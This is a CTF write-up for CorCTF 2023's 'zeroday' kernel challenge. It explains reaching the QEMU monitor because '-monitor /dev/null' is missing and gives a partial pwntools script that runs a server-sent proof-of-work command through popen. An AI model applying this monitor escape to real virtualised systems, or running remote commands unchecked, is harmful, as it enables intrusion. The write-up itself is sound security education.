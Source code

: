 ```yaml
---
title: 'Write up CorCTF 2023'
categories:
  - Pwnable
tags:
  - Pwn
published: true
date: 2023-07-31
---
```

# 
This year, I've played for [m1cr0$oft 0ff1c3](https://ctftime.org/team/194346) team. We were in 24th place.

![image](https://user-images.githubusercontent.com/31349426/257208523-da1e4fc5-cdb3-4438-b464-a96f60ab34f7.png)


## zeroday

[Attachment](https://static.cor.team/uploads/f93d715de70d3564d225322817f8ee2cf5280df938ca8f767829ff1bf5be4963/zeroday.zip)

![image](https://user-images.githubusercontent.com/31349426/257205502-4a417562-5e51-48ae-8dd6-f4af35322439.png)

Not like a normal Linux kernel exploit challenge. This challenge doesn't provide any vulnerable driver.

Then, I did check `run.sh` again carefully.

```sh
#!/bin/sh

qemu-system-x86_64 \
    -m 128M \
    -nographic \
    -kernel "./bzImage" \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=on" \
    -no-reboot \
    -cpu qemu64,+smep,+smap \
    -smp 2 \
    -initrd "./initramfs.cpio.gz
```

You can see that there is no option: `-monitor /dev/null` , so you can access Qemu monitor by pressing `Ctrl A` + `c` or sendline `\x01c`.

So I wrote a script dump physical memory to screen and finally I found the address of the flag is `0x7bb1000`.

```py
from pwn import *
from os import popen

f = open("dump4.txt","wb")
io = remote("be.ax",32578)

io.recvuntil(b"proof of work: ")

cmd = io.recvline().decode()

sol = popen(cmd).read()

io.sendlineafter(b"solution: ",sol.encode())

io.sendlineafter(b"ctf@(none)",b"\x01c")

```